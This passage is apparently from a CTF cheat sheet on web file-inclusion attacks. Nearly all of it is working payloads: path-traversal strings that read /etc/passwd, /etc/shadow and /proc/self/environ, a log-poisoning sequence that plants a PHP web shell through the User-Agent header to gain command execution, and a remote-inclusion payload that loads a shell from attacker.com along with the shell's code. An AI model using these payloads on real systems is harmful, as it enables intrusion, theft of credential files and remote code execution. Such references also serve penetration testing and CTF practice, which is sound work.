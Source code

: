 **Reference**: `~/ctf-tools/PayloadsAllTheThings/Command Injection/`

---

### 📂 File Inclusion (LFI/RFI)

**What it is**: Including unauthorized files in web application

**LFI (Local File Inclusion)**:
```bash
# Basic traversal
../../../etc/passwd
../../../../etc/passwd
..%2F..%2F..%2Fetc/passwd

# Double encoding
..%252f..%252f..%252fetc/passwd

# Null byte (PHP < 5.3.4)
../../../../etc/passwd%00
../../../../etc/passwd%00.jpg

# Common Linux files
/etc/passwd
/etc/shadow
/etc/hosts
/proc/self/environ
/var/log/apache2/access.log
/var/log/auth.log
```

**LFI to RCE (Log Poisoning)**:
```bash
# Steps:
1. Find LFI: http://target.com/page?file=../../../../var/log/apache2/access.log

2. Poison log by injecting PHP:
   curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/

3. Execute command:
   http://target.com/page?file=../../../../var/log/apache2/access.log&cmd=cat+/flag.txt
```

**RFI (Remote File Inclusion)**:
```bash
# Basic RFI
http://target.com/page?file=http://attacker.com/shell.txt

# PHP shell (shell.txt content)
<?php system($_GET['cmd']); ?>

# Direct execution
http://target.com/page?file=http://attacker.com/shell.txt&cmd=id
```
